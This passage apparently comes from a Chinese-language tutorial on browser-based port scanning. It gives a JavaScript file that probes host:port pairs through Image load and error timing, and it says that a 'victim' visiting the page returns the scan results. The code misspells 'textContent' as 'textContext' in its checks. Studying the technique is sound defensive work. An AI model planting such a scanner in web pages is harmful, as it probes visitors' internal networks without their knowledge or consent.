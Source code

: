 ```html
    </body>
</html>
```

JavaScript 文件 check_open_ports.js 看起来是这样的：

```javascript
function scan(resultElem,hostport,serviceName,uriPath) { 
    var image = new Image();
    image.onerror = function() { 
        if (!image) {
            return;
        }
        image = undefined;
        if (resultElem.textContext == '?'){ 
            resultElem.textContent = serviceName + "open";
        }
    };
    image.onload = image.onerror;
if (hostport.split(":")[1] == 443) {
    image.src = 'https://' + hostport + uriPath;
} else {
    image.src = 'http://' + hostport + uriPath;
}
setTimeout(function(){ 
    if (!image) {
        return;
    }
    image = undefined;
    if (resultElem.textContext == '?') { 
        resultElem.textContent = serviceName + "closed";
    }
  },2000);
}

function portscan() { 
    var i = 1;
    hostport = document.getElementById("host" + i + "name").textContent; 
    while (hostport) {
        resultElem = document.getElementById("host" + i + "result"); 
        scan(resultElem,hostport,"","");
        i++;
        hostport = document.getElementById("host" + i + "name").textContent;
    }
}
```

当受害者访问这个页面是，我们将获得：

![A4W87q.png](https://s2.ax1x.com/2019/04/08/A4W87q.png)

**图例 2**: 使用 JavaScript 端口扫描的结果
